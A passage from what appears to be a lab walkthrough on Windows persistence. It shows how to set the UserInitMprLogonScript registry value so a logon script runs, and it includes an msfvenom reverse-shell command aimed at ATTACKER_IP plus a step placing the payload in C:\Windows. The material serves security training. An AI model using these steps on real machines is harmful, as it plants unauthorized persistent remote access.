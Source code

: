 
After doing this, sign out of your current session and log in again, and you should receive a shell (it will probably take around 10 seconds).

![task6-flag3](./images/task6-flag3.png)

### Logon scripts

One of the things `userinit.exe` does while loading your user profile is to check for an environment variable called `UserInitMprLogonScript`. We can use this environment variable to assign a logon script to a user that will get run when logging into the machine. The variable isn't set by default, so we can just create it and assign any script we like.

Notice that each user has its own environment variables; therefore, you will need to backdoor each separately.

Let's first create a reverse shell to use for this technique:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4453 -f exe -o revshell.exe
```

We'll transfer the shell to our victim machine as we did previously. We can then copy the shell to any directory we like. In this case, we will use `C:\Windows`:

```
move revshell.exe C:\Windows
```

To create an environment variable for a user, you can go to its `HKCU\Environment` in the registry. We will use the `UserInitMprLogonScript` entry to point to our payload so it gets loaded when the users logs in:

![task6-backdoor-env](./images/task6-backdoor-env.png)

Notice that this registry key has no equivalent in `HKLM`, making your backdoor apply to the current user only.
